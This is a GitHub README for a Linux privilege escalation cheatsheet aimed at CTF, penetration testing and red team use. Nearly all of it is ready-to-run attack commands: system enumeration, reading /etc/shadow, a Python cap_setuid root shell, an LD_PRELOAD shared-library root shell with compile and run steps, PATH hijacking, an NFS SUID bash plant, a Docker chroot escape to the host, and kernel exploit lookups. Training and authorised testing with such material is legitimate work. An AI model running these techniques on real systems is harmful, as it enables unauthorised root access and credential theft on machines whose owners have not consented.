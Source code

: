 # linux-privilege-escalation-cheatsheet
This is a practical cheatsheet for Linux Privilege Escalation, ordered by priority.  
It is intended for Capture The Flag (CTF) exercises, penetration testing, and red team operations.  
Each section includes examples and ready-to-use commands.

General Info & Enumeration
Always perform this first: identify running processes, open ports, users, and interesting files to find escalation opportunities.

Essential commands:
whoami
id
hostname
uname -a
ps aux
netstat -tulnp
ss -tulnp
env
find / -name "*.log" 2>/dev/null
find / -writable -type d 2>/dev/null
cat /etc/crontab
ls -la /etc/cron.*
ls -la /var/spool/cron
ls -la /home
ls -la /tmp
sudo -l

--------------------------------------------------------------------------------------

# **SUDO**
Allows executing commands with elevated privileges if permitted in the sudoers file.
sudo -l
If a binary is listed, search it on GTFOBins.

--------------------------------------------------------------------------------------

# **SUID (Set User ID)**
Binaries that run with root privileges even when executed by unprivileged users.

find / -perm -4000 -type f 2>/dev/null
find / -perm /4000 2>/dev/null
Check each binary on GTFOBins for known exploits.

--------------------------------------------------------------------------------------

# **Capabilities**
Check if regular binaries have special capabilities like cap_setuid, which allow privilege escalation.

getcap -r / 2>/dev/null

If cap_setuid+ep is found on binaries like Python:
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

--------------------------------------------------------------------------------------

# **LD_PRELOAD / LD_LIBRARY_PATH**
Advanced technique using environment variables and sudo to run arbitrary code.

Check if LD_PRELOAD is allowed:
sudo -l

Create this C code:
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
   unsetenv("LD_PRELOAD");
   setgid(0);
   setuid(0);
   system("/bin/bash");
}

Compile it:
gcc -fPIC -shared -o /tmp/lib.so shell.c -nostartfiles

Execute an allowed command:
sudo LD_PRELOAD=/tmp/lib.so <command>

Example:
sudo LD_PRELOAD=/tmp/lib.so find

--------------------------------------------------------------------------------------

# **Cron Jobs**
Scheduled scripts executed by root. If editable, they are exploitable.

cat /etc/crontab
ls -la /etc/cron.*
ls -la /var/spool/cron

Check if any scheduled scripts are writable or vulnerable to PATH hijacking.

--------------------------------------------------------------------------------------

# **Weak File Permissions**
Critical files like /etc/shadow or /etc/passwd with unsafe permissions may allow hash reading or user modification.

find / -writable -type f -user root 2>/dev/null
cat /etc/shadow
cat /etc/passwd

--------------------------------------------------------------------------------------

# **PATH Hijacking**
If a script executed by root uses commands without absolute paths, you can hijack the PATH to run your own version.

echo "/bin/bash" > cp
chmod +x cp
export PATH=.:$PATH
./script.sh

--------------------------------------------------------------------------------------

# **NFS Misconfiguration**
If an NFS share is mounted with no_root_squash, you can upload SUID binaries and execute them remotely.

showmount -e <IP>
mount -t nfs <IP>:/home/backup /mnt/backup
cp /bin/bash /mnt/backup/rootbash
chmod +s /mnt/backup/rootbash

--------------------------------------------------------------------------------------

# **Docker Misconfiguration**
If the user is in the docker group, they can access the host by running privileged containers.

id  # Check if you're in the docker group
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

--------------------------------------------------------------------------------------

# **Kernel Exploits**
Last resort. Use known exploits against vulnerable kernels (e.g., Dirty COW, OverlayFS).

uname -a
searchsploit linux kernel










